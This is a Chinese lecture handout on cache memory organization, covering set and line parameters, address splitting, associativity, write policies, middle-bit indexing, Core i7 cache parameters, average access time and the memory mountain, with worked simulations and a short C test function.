课件开头用五页回顾了第 12 讲的结论，这里只把本讲要用到的部分串一遍，细节见第 12 讲 12.11–12.13 节。局部性（locality）是程序的普遍性质：最近访问过的数据很可能马上再被访问（时间局部性），地址相邻的数据很可能被相继访问（空间局部性）。存储器层次结构利用局部性，让每一层（较小、较快、较贵）充当下一层（较大、较慢、较便宜）的缓存：L1 缓存存放从 L2 取来的块，L2 存放从 L3 取来的块，L3 存放从主存取来的块（课件 p.4）。层与层之间以固定大小的块（block）为单位复制数据，所以访问一个字节时，与它同块的其余字节也一起被搬上来，这正是空间局部性能带来好处的原因（课件 p.5）。要访问的数据所在的块已经在缓存里，叫命中（hit）；不在，叫不命中（miss），此时要从下一层取来这个块，按放置策略决定放在哪里，如果那里已经有块，还要按替换策略选一个块驱逐出去（课件 p.6–7）。
课件 p.8 把不命中分成三类，2026 版改了顺序和措辞。第一类是冷不命中（cold miss，也叫强制性不命中），指缓存一开始是空的，并且这是对这个块的第一次访问，任何缓存都避免不了。第二类是容量不命中（capacity miss），原因是程序在一段时间内反复访问的块的集合——工作集（working set）——比缓存还大，缓存装不下。第三类是冲突不命中（conflict miss）：缓存的总容量其实够用，但放置策略把好几个块限定在同一个位置上，它们互相驱逐；课件的例子是“第 k+1 层的块 i 只能放在第 k 层的位置 i mod 4”，访问块 0、8、0、8……时每次都不命中。判断一次不命中属于哪一类，第 12 讲给出了可操作的方法：不是第一次访问，就拿一个同样容量的全相联缓存（任何块可以放在任何位置、按 LRU 替换）来对照，它也不命中的算容量不命中，它命中而真实缓存不命中的算冲突不命中。本讲所有模拟器统计的不命中类型都用这个方法判别。
13.2 高速缓存的组织：(S, E, B, m) 与地址划分（课件 p.9、p.18、p.20）#
高速缓存存储器（cache memory）是由硬件自动管理的、小而快的 SRAM 存储器，存放主存中最常被访问的块；CPU 读写内存时首先在缓存中查找（课件 p.9）。图 1 是课件 p.9 的典型系统结构：缓存位于 CPU 芯片内部，紧挨着寄存器文件，访问它不需要经过系统总线；只有缓存不命中时，才通过总线接口、系统总线、I/O 桥和存储器总线去访问主存——也就是第 12 讲 12.1 节那一套耗时的总线事务。
图 1 有了高速缓存之后的系统结构（课件 p.9）：缓存在 CPU 芯片内，命中时不必经过总线
任何一块高速缓存都可以用四个参数描述（课件 p.18、p.20，图 2）。缓存由 S = 2s 个组（set）构成；每组有 E 行（line）；每行由三部分组成：1 位有效位（valid bit，表示这一行是否装着有意义的数据）、t 位标记（tag，用来确认装的是哪一个块）、以及 B = 2b 字节的数据块。第四个参数是地址的位数 m，地址空间共 M = 2m 个字节。缓存能存放的数据量（不算有效位和标记）是
C = S × E × B。
图 2 高速缓存的通用组织 (S, E, B) 与 m 位地址的划分（课件 p.18、p.20）
硬件把 m 位地址从高到低切成三段：t 位标记、s 位组索引（set index）、b 位块偏移（block offset），t = m − s − b（三段均为无符号位段，取值分别为 0 到 2t−1、2s−1、2b−1，不会出现负数）。读一个字时，硬件依次做三件事（课件 p.20）：第一，选组——取出地址中间的 s 位，把它当作无符号数，直接选中第几组；第二，行匹配——把地址的高 t 位与这一组里每一行的标记比较，若某一行的标记相等并且有效位为 1，就是命中；第三，字抽取——用低 b 位作为块内偏移，从该行的数据块中取出所要的字节。如果没有一行匹配，就是不命中：缓存从下一层取来包含这个地址的块，放进这一组的某一行（必要时替换掉原来的行），再完成读取。
为什么这样能工作？因为一个地址的块号是 ⌊地址 / B⌋，也就是去掉低 b 位后剩下的 t + s 位；其中低 s 位决定它放在哪一组（块号 mod S），高 t 位在同一组的所有可能的块之间作区分。同一组里两个块的组索引相同，只要标记不同就能区分开；所以标记只需要 t 位，而不需要完整的地址。
表 2 把这些参数之间的关系整理在一起，并给出几种常见缓存的数值（对应教材练习 6.9、6.10 的格式）。做题时给出其中任意几个，就能推出其余各项：b = log₂B，s = log₂S，S = C / (E × B)，t = m − s − b。
表 2 缓存参数之间的关系与几个例子（地址 m 位）
| 缓存 | m | C | B | E | S | s | b | t = m − s − b |
|---|---|---|---|---|---|---|---|---|
| 课件 p.13 的玩具缓存 | 4 | 8 B | 2 | 1 | 4 | 2 | 1 | 1 |
| 课件 p.17 的玩具缓存 | 4 | 8 B | 2 | 2 | 2 | 1 | 1 | 2 |
| 课件 p.24 的玩具缓存 | 6 | 16 B | 4 | 1 | 4 | 2 | 2 | 2 |
| Core i7 L1d（课件 p.29） | 47 | 32 KB | 64 | 8 | 64 | 6 | 6 | 35 |
| 默认环境 L1d | 48 | 48 KB | 64 | 12 | 64 | 6 | 6 | 36 |
| 默认环境 L2 | 48 | 2 MB | 64 | 16 | 2048 | 11 | 6 | 31 |
| 作业 6.30 的缓存 | 13 | 128 B | 4 | 4 | 8 | 3 | 2 | 8 |
（默认环境的地址按 48 位虚拟地址计；L1d 的 C = 64 × 12 × 64 = 49 152 字节，组数 64 仍是 2 的幂，相联度 12 却不是，这一点在 13.5 节展开。）
由于 C = S × E × B，固定容量 C 和块大小 B 时，E 越大 S 越小。按 E 的取值，缓存分成三类：E = 1 叫直接映射（direct-mapped），每组一行；1 < E < C/B 叫 E 路组相联（E-way set associative）；E = C/B（即 S = 1，只有一组）叫全相联（fully associative）。下面两节分别看直接映射和组相联。
13.3 直接映射高速缓存（课件 p.10–13）#
直接映射缓存每组只有一行，所以每个内存块只能放在唯一的一行里（2026 版课件 p.10 的副标题：“Each memory block maps to a single cache line”）。课件 p.10–12 用三页演示读一个 int 的过程：块大小 8 字节，要读的 int 地址的低 3 位是 100（块偏移 4），中间 s 位是 0…01（第 1 组），高 t 位是某个标记值。图 3 把三页合成一张图。第一步选组：组索引 0…01 选中第 1 组。第二步行匹配：这一组只有一行，检查它的有效位是否为 1、标记是否等于地址的 t 位，两者都满足就是命中。第三步字抽取：块偏移 100 表示 int 从块内第 4 字节开始，取出字节 4～7 这 4 个字节。如果标记不匹配，这一行原来的内容就被驱逐，换成新取来的块（课件 p.12：“If tag doesn’t match: old line is evicted and replaced”）——直接映射没有任何选择余地，也就不需要替换策略。
图 3 直接映射缓存读一个 int 的三步（课件 p.10–12）：①选组；②比较有效位与标记；③按块偏移取出字节 4～7
课件 p.13 用一个玩具缓存把这个过程逐次模拟一遍。地址 4 位（m = 4，内存共 16 字节），t = 1、s = 2、b = 1：4 个组，每组 1 行，每块 2 字节，容量 8 字节。程序依次读地址 0、1、7、8、0（每次读 1 字节）。表 3 逐次列出每次访问的地址划分、结果和访问后的缓存内容；表中“M[a–b]”表示内存第 a～b 字节组成的块。
表 3 课件 p.13 的直接映射模拟（t = 1，s = 2，b = 1；模拟器逐次核对）
| 次序 | 地址（二进制） | 标记 | 组 | 偏移 | 组 | 标记 | 结果与原因 | 访问后各组内容（v，标记，块） |
|---|---|---|---|---|---|---|
| 1 | 0 = 0000 | 0 | 00 | 0 | 0 | 0 | 不命中：缓存为空，冷不命中 | 组 0：1，0，M[0–1]；其余无效 |
| 2 | 1 = 0001 | 0 | 00 | 1 | 0 | 0 | 命中：块 M[0–1] 刚刚装入（空间局部性） | 同上 |
| 3 | 7 = 0111 | 0 | 11 | 1 | 3 | 0 | 不命中：第一次访问 M[6–7]，冷不命中 | 组 0：M[0–1]；组 3：1，0，M[6–7] |
| 4 | 8 = 1000 | 1 | 00 | 0 | 0 | 1 | 不命中：第一次访问 M[8–9]，冷不命中；它也映射到组 0，驱逐 M[0–1] | 组 0：1，1，M[8–9]；组 3：M[6–7] |
| 5 | 0 = 0000 | 0 | 00 | 0 | 0 | 0 | 不命中：M[0–1] 刚被 M[8–9] 驱逐，冲突不命中 | 组 0：1，0，M[0–1]；组 3：M[6–7] |
结果是不命中、命中、不命中、不命中、不命中，5 次访问只命中 1 次。最后一次值得细看：此时缓存里只有两块有效（组 1、组 2 一直空着），总容量完全够用，但 0 和 8 两个块的组索引都是 00，只能争同一行——这就是冲突不命中，课件 p.8 所说的“访问块 0、8、0、8……每次都不命中”。同容量的全相联缓存（4 行，任何块可放任何行）在第 5 次访问时会命中，模拟器正是据此把它判为冲突不命中。
要逐次重现这张表，可以打开网页版模拟器“存储器实验”视图中的“缓存可视化”子页，其内置例子“直接映射：0、1、7、8、0”就是 p.13 的设置。单步执行时，它把每个地址分成标记、组索引、块偏移三段着色显示，并标出每次是命中还是哪一类不命中、驱逐了哪一块。13.4 节 p.17 的 2 路组相联、13.6 节的两种写策略、13.7 节的中间位与高位索引、13.13 节的例 1～3、作业 6.34 和 6.35，以及第五部分的自测题 3、4、5、7，也都内置为例子，可以改参数再运行。
常见问题：高速缓存的命中、不命中是谁判断、谁处理的？要不要操作系统或者程序参与？
全部由硬件完成，用课上的话说，“电路自己就算完了”。CPU 执行一条 movq 时只是发出一个地址，指令集里没有“去查缓存”的指令。缓存的控制电路用组索引选出一组，同时把组内各行的标记与地址的标记位比较，再看有效位，在几个周期内就判断出命中还是不命中；不命中时，也是控制电路向下一级发出请求、按替换策略选出牺牲行、必要时写回、再把新块装进来，整个过程不经过任何软件，也不会产生异常。程序员看不到缓存的存在，只能从运行时间上感觉到它，这也是第 12 讲 12.14 节的表中，L1、L2 缓存的“由谁管理”一栏写着“硬件”的意思。
程序能做的只是影响缓存的表现：写出局部性好的代码（13.11、13.12 节），或者用预取指令给硬件一个“提示”。这些都只影响速度，不影响结果的正确性。与之对照，第 19 讲的虚拟内存也是一种缓存，但它的不命中（缺页）代价太大，替换算法也复杂，所以交给操作系统的缺页处理程序这一段软件处理；而 TLB 的不命中在 x86-64 上仍由 MMU 硬件自己查页表完成。
13.4 组相联与全相联（课件 p.14–17）#
E 路组相联缓存每组有 E 行，每个内存块可以放在它所属组的 E 行中的任何一行（2026 版课件 p.14 的副标题：“Each memory block maps to E cache lines”）。读的过程仍是三步，区别在第二步：选中组以后，要把地址的标记同时与组内 E 行的标记比较（课件 p.15 的“compare both”），哪一行有效且标记相等就从哪一行取数据。图 4 是课件 p.14–16 的 2 路组相联缓存读一个 short（2 字节）的过程：块偏移 100，取出块内字节 4～5。
图 4 2 路组相联缓存读一个 short 的过程（课件 p.14–16）：组内两行的标记同时比较
如果组内没有一行匹配，就要从这一组中选一行驱逐（课件 p.16）。若组内还有无效行，直接用无效行；若都有效，按替换策略选择：随机替换实现最简单；最近最少使用（least recently used，LRU）替换驱逐最长时间没被访问的那一行，它最符合时间局部性，但要为每组记录访问次序，E 越大代价越高。真实处理器多采用近似 LRU 的“伪 LRU”（pseudo-LRU）等策略，用很少的状态位得到接近 LRU 的效果，本课程按 LRU 计算即可。
课件 p.17 用同样的访问序列 0、1、7、8、0 模拟一个 2 路组相联的玩具缓存：t = 2、s = 1、b = 1，2 个组，每组 2 行，每块 2 字节，总容量仍是 8 字节（与 13.3 节的直接映射缓存相同）。表 4 是逐次模拟的结果。
表 4 课件 p.17 的 2 路组相联模拟（t = 2，s = 1，b = 1，LRU；模拟器逐次核对）
| 次序 | 地址（二进制） | 标记 | 组 | 偏移 | 组 | 标记 | 结果与原因 | 访问后各组内容 |
|---|---|---|---|---|---|---|
| 1 | 0 = 0000 | 00 | 0 | 0 | 0 | 00 | 不命中：冷不命中 | 组 0：{00，M[0–1]} |
| 2 | 1 = 0001 | 00 | 0 | 1 | 0 | 00 | 命中 | 同上 |
| 3 | 7 = 0111 | 01 | 1 | 1 | 1 | 01 | 不命中：冷不命中 | 组 0：{00，M[0–1]}；组 1：{01，M[6–7]} |
| 4 | 8 = 1000 | 10 | 0 | 0 | 0 | 10 | 不命中：冷不命中；组 0 还有一行空着，直接放入，不驱逐 | 组 0：{00，M[0–1]}，{10，M[8–9]}；组 1：{01，M[6–7]} |
| 5 | 0 = 0000 | 00 | 0 | 0 | 0 | 00 | 命中：M[0–1] 仍在组 0 | 同上 |
与 表 3 对照，只有最后一次的结果变了：直接映射下 M[0–1] 和 M[8–9] 争同一行，第 5 次访问是冲突不命中；2 路组相联下它们可以共存于组 0 的两行，第 5 次访问变成了命中。这正是提高相联度的作用——减少冲突不命中。代价也很明显：每次访问要同时比较 E 个标记，需要 E 个比较器和一个 E 选 1 的多路复用器，替换时还要维护 LRU 信息；相联度越高，命中时间越长、功耗和面积越大。
全相联缓存是 S = 1 的特例：只有一组，所有 C/B 行都在这一组里，任何块可以放在任何一行。地址中没有组索引（s = 0），只有标记和块偏移。它没有冲突不命中，但每次访问要把标记与所有行比较，硬件只能用于行数很少的场合，例如后面虚拟内存一讲的 TLB（翻译后备缓冲器）；或者用于不命中代价极高、可以花时间用软件查找的场合，例如操作系统用主存缓存磁盘上的页。
常见问题：既然相联度越高冲突越少，为什么 L1 不做成全相联？
因为 L1 的命中时间只有 4、5 个周期，每一个时钟周期都要为它“精打细算”。全相联意味着每次访问都要并行比较几百个标记（32 KB / 64 B = 512 行），比较器和选择电路会让命中时间、功耗都大幅增加，得不偿失。实际设计是折中：L1 用 8～12 路，L2 用 8～16 路，L3 用 16～20 路；路数再增加，冲突不命中的减少已经很小了。默认环境的三级缓存分别是 12 路、16 路、20 路，就是这种折中的结果。
13.5 S、E、B 一定是 2 的幂吗？（课件 p.19）#
2026 版课件 p.19 新增了一页设问：“Can S/E/B not be the power of 2s?”——页面上只有这一句话。教材的公式（S = 2s、B = 2b、E 有时也写成 2e）默认三者都是 2 的幂，那么这是硬性规定，还是只是习惯？答案是：B 和 S 几乎总是 2 的幂，E 常常不是，原因要从硬件怎样使用这三个数来看。
先看 B 和 S 为什么要取 2 的幂。13.2 节的三步查找中，块偏移和组索引都是“直接取地址的某几位”：块偏移就是最低的 b 位，组索引就是紧接着的 s 位，选组只需要把这几根地址线接到译码器上，不需要做任何运算。这能成立的前提正是 B = 2b、S = 2s：此时块号 = ⌊地址 / B⌋ 就是右移 b 位，组号 = 块号 mod S 就是取低 s 位。如果 S 不是 2 的幂（比如 S = 48），组号就得真的去算“块号 mod 48”，需要一个除法或取模电路，而这一步处在每一次内存访问的关键路径上，会直接拖长 L1 的命中时间。B 也一样：块大小不是 2 的幂，块偏移和块号都要靠除法求出，块在内存中也无法对齐。所以 L1、L2 的 B 和 S 都是 2 的幂。
E 则不受这个限制，因为 E 只是“一组里有几行同时比较”，它不参与地址划分——选组只看 s 位，块偏移只看 b 位，E 是多少都不影响这两步。E 多一行，就多一个标记比较器、多一路数据选择，硬件上完全可以是 12 路、20 路。因此在 C = S × E × B 中，S、B 是 2 的幂而 E 不是，容量 C 也就跟着不是 2 的幂。实例很多：
- 默认环境（第 5 代至强）的 L1 数据缓存是 48 KB、12 路、64 组、64 字节块：48 KB = 64 × 12 × 64。这三个数可以在 Linux 上用 getconf -a | grep CACHE 或读 /sys/devices/system/cpu/cpu0/cache/ 下的文件查到。
- Intel Golden Cove（第 12 代酷睿的 P 核）也是 48 KB、12 路的 L1d（Chips and Cheese 的评测：“Golden Cove’s L1D is 12-way associative”）；AMD Zen 5 的 L1d 同样从上一代的 32 KB、8 路增加到 48 KB、12 路。两家厂商都是在保持 64 组不变的前提下，靠增加路数把 L1 扩大了一半。
- 默认环境的 L3 是 20 路，教材图 6.39 中 Core i7 的 L3 是 16 路、8 MB。
更进一步，末级缓存的组数有时也不是 2 的幂。容量很大的 L3 对命中时间不那么敏感（几十个周期），设计者有更多余地。例如默认环境的操作系统报告其 L3 为 260 MB、20 路、64 字节块，算出的组数是 212 992 = 13 × 214，并不是 2 的幂。这是因为 Intel 的 L3 并不是一块整体的缓存，而是分成许多个切片（slice），分布在芯片的各个核心旁边；硬件先对物理地址的若干位做一个哈希函数，选出这个块属于哪一个切片，再在切片内部按 2 的幂的组数正常索引。切片数等于核心数，可以是任意整数，总组数也就不是 2 的幂。用哈希而不是直接取某几位来选切片，还有一个好处：规律的地址（比如按 4 KB 步长访问）不会全都集中到同一个切片上。安全研究者已经通过实验逆向出了好几代处理器的切片哈希函数（如 Maurice 等人 2015 年的论文），这些细节了解即可。
★ 结论
B 和 S 取 2 的幂，是为了让“取块偏移”“选组”变成直接取地址位、不需要运算；E 不参与地址划分，可以是任意正整数，C = S × E × B 照样成立。教材和考试中的计算都按 B、S 是 2 的幂的口径进行：b = log₂B，s = log₂S，t = m − s − b。遇到 E 不是 2 的幂的题目（如 48 KB、12 路），先由 S = C / (E × B) 求出组数，它仍是 2 的幂。
13.6 写策略（课件 p.21–22）#
读操作只是把数据从下一层复制上来，写操作则麻烦得多：同一个数据在 L1、L2、L3、主存乃至磁盘上可能各有一份副本（课件 p.21），写了 L1 中的副本以后，其他副本怎么办？这要分写命中和写不命中两种情况来决定。
写命中时有两种做法。一种是直写（write-through），立即把修改写到下一层。实现简单，下一层永远是最新的，但每次写都要访问下一层，总线流量大。另一种是写回（write-back），只改缓存中的副本，推迟到这一行被驱逐时才把整个块写回下一层。这样对同一块的多次写只需要一次写回，流量小得多；代价是每一行要增加一个脏位（dirty bit），记录这一块被写过没有，驱逐时只有脏的行才需要写回。
写不命中时也有两种做法。一种是写分配（write-allocate），先把这个块从下一层取进缓存（就像一次读不命中），再按写命中处理；如果后面还要写同一个块的其他位置，这样做有利。另一种是非写分配（no-write-allocate，也叫 write around），绕过缓存，直接把数据写到下一层，不装入缓存。
两组选择可以任意搭配，但常见的是两种组合：写回 + 写分配——两者都假设“写过的块还会再被访问”，充分利用局部性；直写 + 非写分配——两者都不让写操作在缓存中留下需要额外管理的状态。越往下层，访问一次的代价越大，越倾向于写回：现代处理器的 L1、L2、L3 基本都是写回 + 写分配。
课件 p.22 把“写回 + 写分配”的完整流程写成三条规则（图 5）。发出对地址 X 的写：如果命中，更新块中的内容，并把脏位置 1（脏位是“粘住”的，置 1 后只有在驱逐时才清零）；如果不命中，先像读不命中那样从内存取来这个块，再像写命中那样完成写操作（课件这一句写成了“The perform the write operations”，应为“Then perform …”）；任何一行被驱逐时如果脏位为 1，就把整个 2b 字节的块写回内存，清零脏位，再装入新内容。
图 5 写回 + 写分配缓存处理一次写操作的流程（课件 p.22）
示例：两种组合对主存的写次数
用一个小例子比较两种组合。缓存是直接映射、4 组、每块 16 字节（共 64 字节）。数组 long a[8] 占地址 0～63，恰好铺满 4 个组；数组 long b[8] 占地址 64～127，它的 4 个块与 a 的 4 个块依次映射到同样的 4 个组。程序先执行两遍“for (i = 0; i < 8; i++) a[i] = i;”（共 16 次写），再执行一遍“for (i = 0; i < 8; i++) sum += b[i];”（8 次读）。模拟器给出的结果见 表 5。
先看写回 + 写分配。第一遍写 a[0] 不命中，按写分配取来块 a[0..1]，写 a[1] 命中；同理 a[2]、a[4]、a[6] 各不命中一次，第一遍共 4 次不命中，4 个块都变脏。第二遍 8 次写全部命中，只改缓存。读 b 时 4 次不命中，每次都要驱逐一个脏的 a 块，于是写回 4 个块（共 64 字节）。
换成直写 + 非写分配，情况就不同了：a 的块从来没有被装入缓存，16 次写全部不命中，每次都直接写主存（16 次，每次 8 字节，共 128 字节）；读 b 的 4 次不命中不需要写回任何东西。
同一段程序，写回策略对主存只写了 4 次（64 字节），直写策略写了 16 次（128 字节）；如果把“写两遍”改成“写一百遍”，写回仍是 4 次，直写则是 800 次。这就是越往下层越要用写回的原因。
表 5 示例程序在两种写策略下的统计（模拟器结果）
| 策略 | 不命中 | 命中 | 从主存读入的块 | 对主存的写 |
|---|---|---|---|---|
| 写回 + 写分配 | 8 | 16 | 8 | 4 次（整块写回，共 64 字节） |
| 直写 + 非写分配 | 20 | 4 | 4 | 16 次（每次 8 字节，共 128 字节） |
13.7 为什么用中间位作组索引（课件 p.23–26）#
13.2 节说组索引取地址的中间 s 位，标记取最高的 t 位。为什么不反过来，用最高的几位选组？课件 p.23 把两种方法并排画出：标准方法是中间位索引（地址形如 TT…SS…BB），另一种方法是高位索引（地址形如 SS…TT…BB）。p.24–26 用一个极小的例子说明差别：内存 64 字节（6 位地址），直接映射缓存 16 字节，块大小 4 字节，于是有 16/4 = 4 个组，地址分成 2 位标记、2 位组索引、2 位块偏移。内存中共有 16 个块，地址依次是 0000xx、0001xx、……、1111xx（xx 是块内偏移）。
图 6 按两种方法给这 16 个块着色。中间位索引取地址的第 3、2 位作组号，相邻的块依次落在组 0、1、2、3、0、1、2、3……，像发牌一样轮流分到 4 个组。高位索引取最高两位作组号，前 4 个块（0000xx～0011xx）全在组 0，接下来 4 个块全在组 1，依此类推，连续的一大片内存挤在同一组。
图 6 16 个内存块在两种索引方式下分别落在哪一组（课件 p.24–26）：左为中间位索引，右为高位索引
程序有空间局部性时，往往在一段时间内访问一片连续的地址。中间位索引把连续的块分散到不同的组，最多可以有 S 个连续的块同时待在缓存里；高位索引则把连续的块都塞进同一组，直接映射时它们只能轮流占用那一行，彼此冲突。用模拟器跑一个具体的访问序列：程序把一个 16 字节的数组（地址 0～15，恰好等于缓存容量）逐字节顺序读两遍，共 32 次访问。中间位索引下，4 个块分别进入 4 个组，只有第一遍每块的第一个字节不命中，共 4 次不命中（全是冷不命中），第二遍全部命中。高位索引下，4 个块全都映射到组 0，第一遍每换一个块就驱逐上一个块，第二遍又要重新取，共 8 次不命中（4 次冷、4 次冲突），而组 1、2、3 始终空着。数组明明装得下，却有一半的不命中是浪费的——这就是课件 p.26 所说的“空间局部性好的程序会产生大量冲突”。
常见问题：用中间位索引，就不会有冲突不命中了吗？
不会消除，只是让“地址相近”的块不冲突。地址相差 S × B 的整数倍的块仍然映射到同一组：在 13.3 节的例子中，地址 0 和 8 相差 4 × 2 = 8，正好同组。程序中两个数组的起始地址如果恰好相差缓存大小的整数倍，按相同下标访问时就会一直冲突（13.13 节例 1 和作业 6.34 都是这种情况），解决办法是提高相联度或在数组之间插入填充。
13.8 真实的层次结构：Core i7（课件 p.27–29）#
课件 p.27 给出 Intel Core i7（Haswell）的缓存层次（图 7）。每个核心有自己私有的 L1 指令缓存（i-cache）和 L1 数据缓存（d-cache），各 32 KB、8 路，访问 4 个周期；每个核心还有一个私有的 L2 统一缓存（unified，指令和数据都放），256 KB、8 路，访问 10 个周期；所有核心共享一个 L3 统一缓存，8 MB、16 路，访问 40～75 个周期。所有缓存的块大小都是 64 字节。L1 把指令和数据分开，是因为处理器每个周期既要取指令又要读写数据，两个缓存可以同时访问，而且各自可以按访问特点优化；L2、L3 离处理器远一些，统一存放更能灵活利用容量。
图 7 Intel Core i7（Haswell）的缓存层次（课件 p.27），右侧列出默认环境（第 5 代至强）的对应参数作对照
十年后的处理器结构基本相同，只是容量大了：默认环境的 L1d 为 48 KB、12 路，L2 为每核 2 MB、16 路，L3 为全芯片共享 260 MB、20 路；第 12 讲研讨题 2（5）用过的 AMD Ryzen 7 9700X 则是 L1d 48 KB（12 路）、L2 每核 1 MB、L3 共享 32 MB。块大小仍然都是 64 字节。
课件 p.28–29 用 Core i7 的 L1 数据缓存做一道练习：32 KB、8 路组相联、每块 64 字节，地址范围 47 位。先求参数：B = 64，所以 b = 6；E = 8；S = C / (E × B) = 32768 / (8 × 64) = 64，所以 s = 6；标记 t = 47 − 6 − 6 = 35 位。然后划分一个栈地址 0x00007f7262a1e010（图 8）：最低 6 位是 01 0000，块偏移 0x10；接下来 6 位是 00 0000，组索引 0x0；其余高 35 位是标记，等于把地址右移 12 位，即 0x7f7262a1e。课件 p.29 在地址下方写出的“0000 0001 0000”就是最低 12 位（组索引 6 位 + 块偏移 6 位）。
图 8 地址 0x00007f7262a1e010 在 Core i7 L1d（32 KB、8 路、64 B 块）中的划分（课件 p.29）
这道题有一个巧妙之处：组索引 6 位 + 块偏移 6 位正好是 12 位，等于 4 KB 页内偏移的位数。所以 L1 选组只需要虚拟地址的低 12 位，而这 12 位在地址翻译前后不变，硬件可以一边翻译地址、一边用这 12 位选组，两件事并行进行。这也是为什么 L1 扩容时，厂商宁可把 8 路加到 12 路，也不愿增加组数（13.5 节）：组数一旦超过 64，组索引就要用到页内偏移以外的位。这一点会在后面虚拟内存一讲中再遇到。
13.9 性能指标与平均访问时间（课件 p.30–32）#
衡量缓存性能有三个指标（课件 p.30）。最常用的是不命中率（miss rate），即不命中的访问次数占全部访问次数的比例，等于 1 − 命中率；典型值是 L1 为 3%～10%，L2 视容量而定，可以低于 1%。其次是命中时间（hit time），即访问缓存所需的时间（2026 版的定义：“Access time for accessing the cache”），包括选组、比较标记、取出数据；典型值是 L1 4 个周期，L2 10 个周期。第三个是不命中处罚（miss penalty），即因为不命中而额外需要的时间，即访问下一层的时间减去访问本层的时间；对主存来说典型值是 50～200 个周期，而且这个数字还在随着处理器与内存的速度差距变大而增长。
命中和不命中的代价相差悬殊，如果只有 L1 和主存两层，可以差到 100 倍（课件 p.31）。设命中时间 1 个周期，不命中处罚 100 个周期，平均访问时间 = 命中时间 + 不命中率 × 不命中处罚：
- 命中率 97%：1 + 0.03 × 100 = 4 个周期；
- 命中率 99%：1 + 0.01 × 100 = 2 个周期。
命中率只从 97% 提高到 99%，平均访问时间却减半。这就是课件说用“不命中率”而不用“命中率”的原因：不命中率从 3% 降到 1%，降为原来的三分之一，这个数字才直接反映性能的变化。
把这个公式推广到多级缓存，就是平均存储器访问时间（average memory access time，AMAT）。L1 不命中时去 L2 找，L2 也不命中才去主存，所以 L1 的不命中处罚本身又是 L2 的平均访问时间：
AMAT = TL1 + mL1 × (TL2 + mL2 × Tmem)，
其中 T 是各级的命中时间，mL2 是 L2 的局部不命中率（L2 的不命中次数 / 到达 L2 的访问次数）。例如 TL1 = 4 周期、mL1 = 5%，TL2 = 12 周期、mL2 = 20%，Tmem = 200 周期：AMAT = 4 + 0.05 × (12 + 0.2 × 200) = 4 + 0.05 × 52 = 6.6 个周期。如果去掉 L2，AMAT = 4 + 0.05 × 200 = 14 个周期，是有 L2 时的两倍多。可见中间层缓存的作用是把 L1 的不命中处罚从 200 个周期降到 52 个周期。
课件 p.32 把这些分析归结为“编写缓存友好的代码”的两条原则。第一，让常见情况变快：程序的大部分时间花在核心函数的内层循环里，优化应该集中在那里。第二，让内层循环的不命中最少：对同一个变量的反复访问是好的（时间局部性，编译器会把它放在寄存器里）；步长为 1 的访问模式是好的（空间局部性，一个块中的数据全部用上）。课件的结论是：有了对缓存的理解，原本定性的“局部性”就可以定量计算了——这正是 13.11–13.13 节要做的事。
13.10 存储器山（课件 p.34–37、p.63–67）#
前面各节讲的是一块缓存怎样工作；一台真实机器的整个存储系统（几级缓存、主存、硬件预取）表现如何，需要一种直观的度量。课件 p.34 引入读吞吐量（read throughput，也叫读带宽）：程序每秒从存储系统读出的字节数，单位 MB/s。一个程序的读吞吐量取决于它的局部性：工作集越小，越能被高层的缓存装下（时间局部性好）；访问的步长越小，每个块中被用到的数据越多（空间局部性好）。以工作集大小和步长为两个自变量、读吞吐量为高度画出的三维曲面，就是存储器山（memory mountain）——一张图概括整个存储系统的性能。
存储器山是测出来的，所以先看测量用的函数。课件 p.35 给出的 test（教材图 6.40）：以步长 stride 遍历全局数组 data 的前 elems 个元素，把它们累加起来。为了不让“加法本身”成为瓶颈，循环做了“4×4 展开”：每次迭代读 4 个元素，分别加到 4 个独立的累加器 acc0～acc3 上，最后再合并。展开减少了循环控制的开销，4 个累加器则让 4 条加法互不依赖、可以并行执行（这是第 14 讲程序优化的内容）。2026 版新增的 p.36 是不展开的简化版，只有一个累加器，更容易看懂。但它不适合真正用来测量：在默认环境上实测，工作集 16 KB、步长 1 时简化版只有约 17 GB/s，展开版约 45 GB/s；工作集 64 MB、步长 1 时分别约 7 GB/s 和 23 GB/s；只有在主存区域两者才接近（约 6 GB/s 与 7 GB/s）。原因是简化版每次加法都要等上一次加法完成，数据来得再快，也被这条依赖链卡住了，测到的是加法的速度而不是存储系统的速度。测量的方法写在两页的右侧：对每一组 (elems, stride)，先调用一次 test() 预热缓存，再调用一次并计时，读吞吐量 = 读出的字节数 / 时间。预热的作用是把冷不命中排除在外：第一次调用时工作集要从主存一块块搬上来，测到的是“从主存装入”的速度；第二次调用时，工作集能放进哪一级缓存，就已经待在那一级了，测到的才是“在这一级缓存中反复访问”的速度——这正是存储器山要刻画的东西。
long data[MAXELEMS]; /* 要遍历的全局数组 */
int test(int elems, int stride) /* 课件 p.36 的简化版 */
{
long i, sum = 0; /* 课件漏写了 = 0，见下面的橙框 */
for (i = 0; i < elems; i += stride)
sum += data[i];
return sum;
}⚠ 课件 p.36、p.35 的测试函数中的两处小问题
p.36 的简化版写成 long i, sum;，sum 没有初始化就开始累加。sum 是局部变量，初值是栈上残留的任意值，函数的返回值因此没有意义（C 标准称为未定义行为）；应写成 long i, sum = 0;。对测吞吐量来说，返回值本来就不重要，所以这个错误不影响测量，但作为代码它是错的。
p.35 的展开版（与教材图 6.40 相同）处理剩余元素的循环写成 for (; i < length; i++)，步长是 1 而不是 stride，剩下的不足 4 × stride 个元素被逐个读了一遍。剩余部分最多只有几十个元素，对吞吐量的影响可以忽略，但严格说应写成 i += stride。本讲义实测用的程序按 i += stride 编写。另外两页的 test 都声明返回 int，而累加器是 long，返回时会被截断，这同样不影响测量。
有了测试函数，就可以在真实机器上测一座山。图 9 是在默认环境（L1d 48 KB、L2 2 MB、L3 260 MB，块 64 字节）上按 p.35 的展开版测得的存储器山：工作集从 16 KB 到 512 MB（每次翻倍），步长从 1 到 12 个 long（8～96 字节），每个点取三次测量的中位数，数据保存在 sources 中的 CSV 文件里。读这座山要抓住两个方向。
图 9 默认环境实测的存储器山（第 5 代至强，2.1 GHz；gcc 13 -O2；p.35 的 4×4 展开版测试函数）
